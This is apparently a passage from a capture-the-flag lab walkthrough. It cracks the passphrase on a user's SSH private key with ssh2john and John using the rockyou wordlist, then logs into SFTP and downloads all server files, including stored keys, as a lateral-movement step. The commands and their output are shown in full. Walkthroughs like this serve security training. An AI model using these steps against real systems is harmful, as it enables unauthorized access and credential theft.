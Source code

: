 **Command**:
```bash
ssh2john id_rsa_moore > moore.hash
```

**Step 3:** Use John or Hashcat to crack the hash (assuming it is a weak password).

**Command**:
```bash
john moore.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

**Expected Output**:
<PRE>
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
********         (id_rsa_moore)
1g 0:00:00:08 DONE (2025-01-06 01:08) 0.1194g/s 40.14p/s 40.14c/s 40.14C/s nicholas..olivia
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
</PRE>

---

With the id_rsa passphrase, test j_moore's private key against the SFTP service.

**Command**:
```bash
sftp -i id_rsa_moore sftp@$ip
```

**Expected Output**:
<PRE>
Enter passphrase for key 'id_rsa_moore':
Connected to 10.10.64.168.
sftp>
</PRE>

---

<details><summary>Alternate Method of Accessing SFTP</summary></details>
</details>

---

### SFTP, Lateral Move to net-admin

#### Enumerating SFTP Documents
Retrieve all files from the SFTP server for analysis:

```bash
cd uploads
get -r *
get .temp_keys
```
